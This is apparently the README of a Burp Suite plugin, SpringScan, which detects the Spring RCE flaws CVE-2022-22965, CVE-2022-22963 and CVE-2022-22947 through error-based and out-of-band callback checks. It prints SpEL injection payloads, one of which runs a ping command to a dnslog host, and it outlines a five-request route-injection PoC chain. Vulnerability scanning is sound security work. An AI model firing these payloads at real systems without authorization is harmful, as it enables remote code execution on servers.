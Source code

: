 # SpringScan Burp 检测插件

## 支持检测漏洞

- [x] Spring Core RCE (**CVE-2022-22965**)
- [x] Spring Cloud Function SpEL RCE (**CVE-2022-22963**)
- [x] Spring Cloud GateWay SPEL RCE (**CVE-2022-22947**)

## 回连平台

- [x] Dnglog
- [x] BurpCollaboratorClient
- [x] Ceye
- [x] Digpm  (默认)
- [ ] 支持自定义回连平台

### CVE-2022-22965 检测方法

利用条件

* JDK9及其以上版本；
* 使⽤了Spring-beans包； 
* 使⽤了Spring参数绑定，参数绑定使⽤的是⾮基本参数类型，如POJO ；

* 使用Tomcat部署，且日志记录功能开启（默认开启）

因为这个洞上传shell还需要准确的web路径（默认在webapps\ROOT），写ssh和计划任务也需要root权限。实战中用exp去检测漏洞不太现实，所以思路转变到使用其他方法去检测漏洞的存在性。主要通过下面两种方式检测：

* 报错检测
* 回连检测（BurpCollaboratorClient/Dnglos/Ceye）

详细原理 ➡️ [https://www.t00ls.cc/articles-65348.html](https://www.t00ls.cc/articles-65348.html)

检测置信度：

> 回连检测 > 报错检测

报错检测误报率较大(默认关闭)，可能存在漏洞但不能保证JDK版本大于等于**9**，可以及时捕捉到不出网的漏洞；回连检测准确率高，不适用于不出网环境。

### CVE-2022-22963 检测方法 

利用条件

* 默认路由`/functionRouter`存在SpEL表达式注入

两种检测方法：

* 通过Java自带InetAddres库：`spring.cloud.function.routing-expression:T(java.net.InetAddress).getByName("xxx.dnslog.cn")`回连探测（可绕过WAF拦截命令执行进行漏洞探测）
* 通过执行`ping`命令：`spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("ping xxx.dnslog.cn")`回连探测
* 会扫描当前URI、以及当前URI拼接默认路由`/functionRouter`进行漏洞探测。

### CVE-2022-22947 检测方法

* 利用条件

该漏洞为当Spring Cloud Gateway启用和暴露 Gateway Actuator 端点时，使用 Spring Cloud Gateway 的应用程序可受到代码注入攻击。攻击者可以发送特制的恶意请求，从而远程执行任意代码。

检测方法：

* 首先随机访问一个不存在的路径，根据特征`Whitelabel Error Page`判断是否是Spring框架；是则打POC，分五个请求：`包含恶意SpEL表达式的路由 -> 刷新路由 -> 访问添加的路由查看RCE结果 -> 删除路由 -> 刷新路由`

## 插件情况

|  **报错检测**   | **回连检测**  | **自带检测**  |
|  :----:  | :----:  | :----:  |
| Spring Core RCE  | Spring Core RCE | Spring Cloud GateWay SPEL RCE |
| x  | Spring Cloud Function SpEL RCE | x |

## 编译

如需编译其他JDK版本，可参考如下方法编译jar包：

![image-20220409120135726](imgs/image-20220409120135726.png)

<img src="imgs/image-20220409120218010.png" alt="image-20220409120218010" style="zoom:50%;" />

<img src="imgs/image-20220409120315324.png" alt="image-20220409120315324" style="zoom:50%;" />

<img src="imgs/image-20220409120455863.png" alt="image-20220409120455863" style="zoom:50%;" />

## 截图

加载插件成功

![image-20220409120649662](imgs/image-20220409120649662.png)

漏洞检测情况

![image-20220411234911184](imgs/image-20220411234911184.png)

![image-20220411234930710](imgs/image-20220411234930710.png)

![image-20220411234948718](imgs/image-20220411234948718.png)

插件设置，报错检测方法默认关闭，回连平台默认`Dig.pm`(推荐)

![image-20220409120720309](imgs/image-20220409120720309.png)

![image-20220413012818703](imgs/image-20220413012818703.png)

target 模块中可以看到漏洞详情

![image-20220409124402852](imgs/image-20220409124402852.png)

## 免责声明

本工具仅作为安全研究交流，请勿用于非法用途。如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，本人将不承担任何法律及连带责任。
